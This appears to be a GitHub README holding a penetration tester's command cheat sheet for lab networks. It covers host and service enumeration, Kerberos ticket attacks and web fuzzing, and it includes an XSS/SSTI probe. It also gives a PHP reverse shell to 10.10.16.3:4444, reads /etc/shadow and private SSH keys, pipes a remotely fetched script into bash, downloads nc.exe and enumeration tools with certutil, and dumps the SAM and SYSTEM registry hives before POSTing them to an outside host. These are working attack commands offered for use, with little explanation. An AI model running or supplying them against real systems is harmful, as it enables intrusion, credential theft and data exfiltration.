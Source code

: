 
<h1>My Methodology</h1>
![image](https://github.com/user-attachments/assets/fb6d2226-5477-4396-be41-e38d2a947be4)


<details>
    <summary><H4>Host Discovery (External)</H4></summary>
    
    fping -ag 10.10.110.0/24 2>/dev/null | tee external-ips ; \
    for ip in $(cat external-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

<details>
    <summary><H4>Host Discovery (Internal)</H4></summary>
    
    fping -ag 172.16.1.0/24 2>/dev/null | tee internal-ips ; \
    for ip in $(cat internal-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

<details>
    <summary><H4>Service Enumeration</H4></summary>
    
    nmap -Pn -sC -sV 172.16.1.10 -p22,80,139,445
    ldap=$(nmap --script "ldap* and not brute" -p 389 172.16.1.10); echo "$ldap"
    nxc ftp 172.16.1.10 --port 21 -u 'anonymous' -p 'anonymous' --ls
    ftp 172.16.1.10
    anonymous
    anonymous
    ls -a
    binary
    ascii
    nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --rid-brute 10000
    nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --shares
    impacket-smbclient domain/'user':'password'@172.16.1.10
    shares
    use
    mysql -h 172.16.1.10 -u root@localhost -e 'show databases;'
    impacket-GetNPUsers -usersfile usernames domain/ -dc-ip 172.16.1.10
    impacket-GetUserSPNs -request-user "$objuser" -dc-ip 172.16.1.10 domain/username:password
    impacket-GetUserSPNs -no-preauth "$user" -usersfile usernames -dc-host 172.16.1.10 domain/
    impacket-GetUserSPNs -request -dc-ip 172.16.1.10 domain/username:password
    
    for x in $(showmount -e 172.16.1.10 | awk '{print $1}' | grep -v 'Export')
        do mkdir -p "/dev/shm"/mnt"$x"
        sudo mount -t nfs 172.16.1.10:"$x" "/dev/shm"/mnt"$x" -o nolock
        tree -puga "/dev/shm"/mnt"$x"
    done
</details>

<details>
    <summary><H4>Web Enumeration</H4></summary>

   <h5>Technology Discovery</h5>
   
    whatweb http://10.10.110.100

   <h5>WAF Discovery</h5>
   
    wafw00f http://10.10.110.100
    
   <h5>WordPress Discovery</h5>
   
    wpscan --url http://10.10.110.100/wordpress --enumerate
    
   <h5>Directory Discovery</h5>

    ffuf -u 'http://10.10.110.100/FUZZ' -t 400 -rate 10000 -e .php -v -recursion -mc 200,301 \
    -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
    2>/dev/null | grep -oP '(http.*)(?<!/)$'
    
<h5>Directory Traversal</h5>

    ffuf -u 'http://10.10.110.100/nav.php?page=FUZZ' -t 400 -rate 10000 -v -mc 200 \
    -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
    2>/dev/null | grep -oP '(http.*)(?<!/)$'
    
   <h5>XSS + SSTI</h5>
   
    <img src=x>'"${{7*7}}
    
   <h5>Subdomain Discovery</h5>
   
    gobuster vhost --append-domain -u example.com -k -r -t200 -q \
    -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
    | grep -oP '(?<=Found: )[^ ]+'
</details>

<details>
    <summary><H4>Exploitation</H4></summary>
    
<h5>Reverse Shells</h5>

    <?php
        $lhost = "10.10.16.3";
        $lport = 4444;
        
        exec("bash -c 'bash -i >& /dev/tcp/$lhost/$lport 0>&1'");
        $sock = fsockopen($lhost, $lport);
        if ($sock) {
            exec("sh <&3 >&3 2>&3");
            }
    ?>
    
  <h5>Upgrade TTY</h5>
  
    python3 -c 'import pty; pty.spawn("/bin/bash")';
    CTRL-Z
    stty size;stty raw -echo;fg
    export SHELL=bash;
    export TERM=xterm-256color;
    stty rows <num> columns <num>
    reset
</details>

<details>
    <summary><H4>Post Exploitation</H4></summary>
    
   <h5>Linux</h5>
   
    ssh user@xxxxxxxxx -i id_rsa -L 33060:localhost:33060
    netstat -tuln
    ls -la /opt
    sudo -l
    find / -perm /4000 2>/dev/null
    grep -r -E 'conf' /var/www
    cat ~/.ssh/id_rsa
    cat /etc/shadow
    curl xxxxxxxxxx:8088/linpeas.sh | bash
    GTFO bins
    
   <h5>Windows</h5>
   
    evil-winrm -i xxxxxxxxxx -u 'username' -p 'password'
    evil-winrm -i xxxxxxxxxx -u 'username' -H 'hash'
    cd C:\users
    tree /f
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/winpeas.exe C:\programdata\winpeas.exe"
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/nc.exe C:\programdata\nc.exe"
    
    click.url
    [InternetShortcut]
    URL=C:\programdata\shell.bat
    
    meterpreter > use priv
    meterpreter > getsystem
    
    nxc winrm xxxxxxxxxx -u 'username' -p 'password' -x \
    '
    powershell -c rm *.SAV
    powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
    powershell -c reg save HKLM\SAM SAM.SAV
    powershell -c compress-archive *.SAV SAM.zip
    powershell -c dir
    iwr http://xxxxxxxxxx:xxxx -Method POST -InFile SAM.zip
    '; unzip -o SAM.zip; \
    impacket-secretsdump LOCAL -sam SAM.SAV -system SYSTEM.SAV
    
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/powerview.ps1 C:\programdata\powerview.ps1"
    powershell Import-Module C:\programdata\powerview.ps1
    Get-NetDomain
    Get-LocalUser
    Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
    bloodhound-python -c all -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
    bloodhound-python -c default -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
</details>
